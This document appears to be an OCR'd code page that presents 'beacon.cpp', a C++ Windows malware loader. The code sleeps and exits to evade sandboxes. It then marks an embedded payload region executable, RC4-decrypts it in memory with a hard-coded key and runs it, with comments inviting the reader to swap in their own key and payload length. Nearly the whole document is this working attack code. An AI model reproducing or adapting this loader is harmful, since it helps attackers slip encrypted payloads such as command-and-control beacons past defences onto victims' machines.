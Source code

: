 here is our beacon.cpp btw

    #include <stdio.h>
    #include <Windows.h>
    #include <chrono>
    #include <thread>

    #define _CRT_SECURE_NO_DEPRECATE
    #pragma warning (disable : 4996)

    extern "C" void RunData();

    void rc4(unsigned char* data, int len, const char* key) {
        int keylen = strlen(key);
        unsigned char s[256];
        for (int i = 0; i < 256; i++) {
            s[i] = i;
        }

        unsigned char j = 0;
        for (int i = 0; i < 256; i++) {
            j = (j + s[i] + key[i % keylen]) % 256;
            unsigned char tmp = s[i];
            s[i] = s[j];
            s[j] = tmp;
        }

        int i = 0;
        j = 0;
        for (int n = 0; n < len; n++) {
            i = (i + 1) % 256;
            j = (j + s[i]) % 256;
            unsigned char tmp = s[i];
            s[i] = s[j];
            s[j] = tmp;
            data[n] ^= s[(s[i] + s[j]) % 256];
        }
    }

    int main(int argc, char **argv)
    {    
        // Simple sandbox evasion
        auto start = std::chrono::system_clock::now();
        std::this_thread::sleep_for(std::chrono::seconds(5));
        auto end = std::chrono::system_clock::now();
        std::chrono::duration<double> elapsed_seconds = end - start;
        if (elapsed_seconds.count() <= 4.5) {
            exit(0);
        }
        // Run our payload function
        const char* key = "advapi32.dll"; // modify with your key
        int len = 200774; // modify with payload length
        DWORD oldProtect = 0;
        if (!VirtualProtect((LPVOID)&RunData, len, PAGE_EXECUTE_READWRITE, &oldProtect)) {
            printf("Error: %d", GetLastError());
        }
        rc4((unsigned char*) & RunData, len, key);
        VirtualProtect((LPVOID)&RunData, len, oldProtect, &oldProtect);
        RunData();
    }
